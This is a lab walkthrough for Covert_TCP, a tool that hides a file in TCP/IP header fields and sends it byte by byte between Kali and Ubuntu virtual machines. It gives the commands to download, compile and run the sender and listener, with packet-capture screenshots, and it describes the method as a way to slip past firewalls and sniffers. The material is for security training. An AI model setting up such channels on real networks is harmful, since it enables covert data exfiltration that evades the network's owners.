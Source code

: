 # Covert Channels usign Cover_TCP
This program manipulates the TCP/IP header to transfer a file one byte at a time to a destination host.


Networks use network access control permissions to permit/deny the traffic through them. Tunneling is used to bypass the access control rules of firewalls, IDS, IPS, web proxies to allow certain traffic. Covert channels can be made by inserting data into unused fields of protocol headers. There are many unused or misued fields in TCP or IP over which data can be sent to bypass firewalls.

### `Covert_TCP`
Covert_TCP manipulates the TCP/IP header of the data packets to send a file one byte at a time from any host to a destination. It can act like a server as well as a client and can be used to hide the data transmitted insied a IP header. This is useful when bypassing firewalls and sending data with legitimate looking packets that contain no data for sniffers to analyze.

### Objectives
* How to carry covert traffic inside of unused fields of TCP and IP headers.

### Requisites
* Windows Server 2016/2012 virtual machine.
* Kali Linux virtual machine.
* Ubuntu Linux virtual machine.

***
### Make a Secret Message File
In the Kali Linux, launch a new Terminal window.

1. Create a folder named **send** on your **Desktop**, and navigate into it:<br>
`cd Desktop`<br>
`mkdir send`<br>
`cd send`

2. Create a text file called **message.txt** inside **send** folder containing the string: **Secret Message!**<br>
`echo "Secret Message!" > message.txt`

### Compile **convert_tcp**
3. Download the **covert_tcp.c** file on the **send folder:**<br>
`wget https://raw.githubusercontent.com/cudeso/security-tools/master/networktools/covert/covert_tcp.c`

4. Compile the convert_tcp.c file:<br>
`cc -o covert_tcp covert_tcp.c`<br><br>
![covert-compile-1](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/d1ba707cb8661a70e9081b65d5aec738b1a31d8e/covert-1.png)

### Make a Receiving Destination
5. Go to your Ubuntu and open a new Terminal window.

6. Switch to super-user access:
`sudo su`

7. Start the **[tcpdump](https://www.lifewire.com/tcpdump-linux-command-unix-command-4097081)** as shown below:<br>
`tcpdump -nvvX port 8888 -i lo`<br><br>
![tcp-dump-ubuntu-2](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/3667d22752bffd47fb4bdc59cd292264d2678674/covert-2.png)

8. Leave the **tcpdump listener** running and open another Terminal window or tab.

9. Go to Desktop and create a folder named **receive** and navigate into it:<br>
`cd Desktop`<br>
`mkdir receive`<br>
`cd receive`

10. Download the **covert_tcp.c** file on the **receive folder:**<br>
`wget https://raw.githubusercontent.com/cudeso/security-tools/master/networktools/covert/covert_tcp.c`

11. Compile the convert_tcp.c file:<br>
`cc -o covert_tcp covert_tcp.c`<br><br>
Note: In case you got some errors about `cc` command, install the compiler:
`sudo apt install gcc`

### Setup a Listener 
12. Start the Listener [Dest=Ubuntu, Source=Kali]:<br>
`./covert_tcp -dest 10.0.2.46 -source 10.0.2.42 -source_port 9999 -dest_port 8888 -server -file /home/s4msepi0l/Desktop/receive/receive.txt`<br><br>
![Ubuntu-tcplistener](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/6394f2daeb23be93a5f775358d395c1862da8791/Listener-ubuntu-covert-4.png)

### Launch Wireshark on Kali
13. Go back to Kali and Launch the Wireshark.<br>
![wireshark-kali-1](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/6394f2daeb23be93a5f775358d395c1862da8791/Wireshark-Covert-5.png)

14. Start the Wireshark capturing, double click on your primary network interface item:<br>
![wirehsark-capturing-kali-2](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/6394f2daeb23be93a5f775358d395c1862da8791/Wireshark-Covert-6.png)

### Start Sending the **Secret Message**
15. Minimize the Wireshark and open a new Terminal window on your Kali, navigate to the **send** folder.
16. Start sending the contents of message.txt file over TCP.<br>
`/covert_tcp -dest 10.0.2.46 -source 10.0.2.42 -source_port 8888 -dest_port 9999 -file /root/Desktop/send/message.txt`<br><br>
![sendsecretmessage](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/ec17197736d6b7a86925a36016d64c4ef5e25444/message-covert-7.png)<br>
Covert_tcp starts sending the string one character at a time as shown above.<br>
If you switch to the termina window in Ubuntu, you will see the message beign received:<br><br>
![receivingsecretmessage](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/ec17197736d6b7a86925a36016d64c4ef5e25444/message-covert-8.png)

### Analyze the Results
17. On your Ubuntu machine, stop the tcpdump pressing **Ctrl+C** as shown below:<br><br>
![tcpdump-stop](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/0dc76e10644c655c0871c8910233c7869a725593/cover-9.png)
Tcpdump shows that no packets were captured in the network.

18. Navigate to **/Desktop/receive/** and double-click the **receive.txt** file to view its contents. You will see the full message saved in the file as shown below:<br><br>
![secretmessage-kali](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/0dc76e10644c655c0871c8910233c7869a725593/covert-10.png)

19. Switch back to the **Kali and Stop the packet capturing on the Wireshark** by clicking on the top-left red switch.

20. Click on **Apply a display filter** field and type **tcp** to view only the TCP packets as show below:<br><br>
![apply-display-filter=tcp](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/327d05e1f91358627301eb39de6dfb12f74d88ae/wireshark-covert-11.png)


If you examine the communication between Ubuntu and Kali (10.0.2.46 - 10.0.2.42) you will find each character of the message string being **sent as individual packets over the network** show on the next screenshots:

Covert_tcp changes the header of the TCP packets and replaces it with the characters of the string one character at a time to send the message without being detected.

Packet 1, string: **S**
![tcp-1](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/327d05e1f91358627301eb39de6dfb12f74d88ae/s-tcp-12.png)

Packet 2, string: **e**
![tcp-2](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/327d05e1f91358627301eb39de6dfb12f74d88ae/e-tcp-13.png)

Packet 3, string: **c**
![tcp-3](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/327d05e1f91358627301eb39de6dfb12f74d88ae/c-tcp-14.png)

Packet 4, string: **r**
![tcp-4](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/327d05e1f91358627301eb39de6dfb12f74d88ae/r-tcp-15.png)

(...) And so on until the entire message was completed.